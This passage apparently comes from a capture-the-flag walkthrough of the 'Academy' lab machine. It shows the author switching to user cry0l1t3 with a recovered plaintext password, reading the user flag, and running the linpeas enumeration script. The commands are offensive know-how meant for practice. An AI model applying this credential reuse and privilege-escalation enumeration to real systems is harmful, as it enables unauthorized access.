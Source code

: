 Let’s use this password on user `cry0l1t3` →

```bash
password : mySup3rP4s5w0rd!!
```
{: .nolineno}
{: .nolineno}

```bash
www-data@academy:/home$ su cry0l1t3
Password: 
$ whoami
cry0l1t3
$ /bin/bash -i
cry0l1t3@academy:/home$ whoami
cry0l1t3
cry0l1t3@academy:/home$ id
uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)
cry0l1t3@academy:/home$
```
{: .nolineno}
{: .nolineno}

Lets see the `user.txt` file first →

```bash
cry0l1t3@academy:~$ ls -al
total 32
drwxr-xr-x 4 cry0l1t3 cry0l1t3 4096 Aug 12  2020 .
drwxr-xr-x 8 root     root     4096 Aug 10  2020 ..
lrwxrwxrwx 1 root     root        9 Aug 10  2020 .bash_history -> /dev/null
-rw-r--r-- 1 cry0l1t3 cry0l1t3  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 cry0l1t3 cry0l1t3 3771 Feb 25  2020 .bashrc
drwx------ 2 cry0l1t3 cry0l1t3 4096 Aug 12  2020 .cache
drwxrwxr-x 3 cry0l1t3 cry0l1t3 4096 Aug 12  2020 .local
-rw-r--r-- 1 cry0l1t3 cry0l1t3  807 Feb 25  2020 .profile
-r--r----- 1 cry0l1t3 cry0l1t3   33 Jul 21 04:15 user.txt
cry0l1t3@academy:~$ cat user.txt
6cfe1da1dbbcec654c05310b9e693f56
cry0l1t3@academy:~$
```
{: .nolineno}
{: .nolineno}

Now I ran `linpeas.sh` file because I didnt find anything and I got something from it also →

![Untitled](/Vulnhub-Files/img/Academy/Untitled%209.png)
